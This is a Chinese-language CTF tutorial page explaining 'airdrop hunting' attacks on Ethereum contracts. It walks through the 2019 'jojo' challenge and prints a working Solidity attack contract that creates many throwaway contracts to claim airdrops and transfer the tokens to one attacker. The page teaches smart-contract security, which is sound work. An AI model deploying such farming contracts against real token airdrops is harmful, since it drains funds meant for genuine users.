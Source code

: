 # Airdrop Hunting

## 原理
薅羊毛攻击指使用多个不同的新账户来调用空投函数获得空投币并转账至攻击者账户以达到财富累计的一种攻击方式。这类攻击方式较为普通且常见，只要是有空投函数的合约都能够进行薅羊毛。其中首个自动化薅羊毛攻击出现在 [Simoleon](https://paper.seebug.org/646/) 上。

## 例子
以数字经济大赛 2019 的 jojo 一题为例，讲解一下如何进行薅羊毛攻击。题目合约的源码如下：
```solidity
pragma solidity ^0.4.24;

contract jojo {
    mapping(address => uint) public balanceOf;
    mapping(address => uint) public gift;
    address owner;
        
    constructor()public{
        owner = msg.sender;
    }
    
    event SendFlag(string b64email);
    
    function payforflag(string b64email) public {
        require(balanceOf[msg.sender] >= 100000);
        emit SendFlag(b64email);
    }
    
    function jojogame() payable{
        uint geteth = msg.value / 1000000000000000000;
        balanceOf[msg.sender] += geteth;
    }
    
    function gift() public {
        assert(gift[msg.sender] == 0);
        balanceOf[msg.sender] += 100;
        gift[msg.sender] = 1;
    }
    
    function transfer(address to,uint value) public{
        assert(balanceOf[msg.sender] >= value);
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
    }
    
}
```

可以发现我们需要满足 balanceOf[msg.sender] >= 100000 才可以得到 flag。

题目中有空投函数，每次空投可以使 balance 增加 100。

```solidity
function gift() public {
    assert(gift[msg.sender] == 0);
    balanceOf[msg.sender] += 100;
    gift[msg.sender] = 1;
}
```

并且也有转账函数，可以将 balance 转给其他用户。

```solidity
function transfer(address to,uint value) public{
    assert(balanceOf[msg.sender] >= value);
    balanceOf[msg.sender] -= value;
    balanceOf[to] += value;
}
```

那么我们可以使用薅羊毛的攻击方式，创建 1000 个临时合约来调用空投函数，并转账给主合约来使得 balanceOf[msg.sender] >= 100000。

```solidity
contract attack{
    function attack_airdrop(int num){
        for(int i = 0; i < num; i++){
            new middle_attack(this);
        }
    }
    
    function get_flag(string email){
        jojo target = jojo(0xA3197e9Bc965A22e975F1A26654D43D2FEb23d36);
        target.payforflag(email);
    }
}


contract middle_attack{
    constructor(address addr){
        jojo target = jojo(0xA3197e9Bc965A22e975F1A26654D43D2FEb23d36);
        target.gift();
        target.transfer(addr,100);
    }
}
```

## 题目

### 数字经济大赛 2019
- 题目名称 jojo

### RoarCTF 2019
- 题目名称 CoinFlip

### QWB 2019
- 题目名称 babybet

### bctf 2018
- 题目名称 Fake3d

!!! note
    注：题目附件相关内容可至 [ctf-challenges/blockchain](https://github.com/ctf-wiki/ctf-challenges/tree/master/blockchain) 仓库寻找。

## 参考
- [首个区块链 token 的自动化薅羊毛攻击分析](https://paper.seebug.org/646/)
- [数字经济大赛 2019 - jojo](https://github.com/beafb1b1/challenges/tree/master/szjj/2019_jojo)


